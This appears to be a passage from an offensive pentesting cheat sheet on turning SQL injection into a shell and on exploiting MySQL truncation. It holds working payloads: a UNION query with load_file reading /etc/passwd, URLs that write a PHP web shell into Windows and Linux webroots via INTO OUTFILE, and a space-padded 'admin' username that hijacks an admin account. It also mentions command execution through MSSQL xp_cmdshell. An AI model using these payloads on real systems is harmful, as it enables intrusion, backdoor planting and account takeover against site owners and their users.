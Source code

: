 #### Get shell from sql-injection <a id="get-shell-from-sql-injection"></a>

The good part about mysql from a hacker-perspective is that you can actaully use slq to write files to the system. The will let us write a backdoor to the system that we can use.

**Load files**

UNION SELECT 1, load\_file\(/etc/passwd\) \#

```text
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

**Write files**

```text
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

**MSSQL - xp\_cmdshell**

You can run commands straight from the sql-query in MSSQL.

### Truncating Mysql Vulerability <a id="truncating-mysql-vulerability"></a>

Basically this happens when you don't validate the length of user input.  
Two things are needed for it to work:

* Mysql does not make comparisons in binary mode. This means that "admin" and "admin " are the same.
* If the username column in the database has a character-limit the rest of the characters are truncated, that is removed. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

With this information we can create a new admin-user and have our own password set to it. So if the max-length is 20 characters we can insert the following string

```text
admin               removed
```

This means that the "removed" part will be removed/truncated/deleted. And the trailing spaces will be removed upon insert in the database. So it will effectively be inserted as "admin".

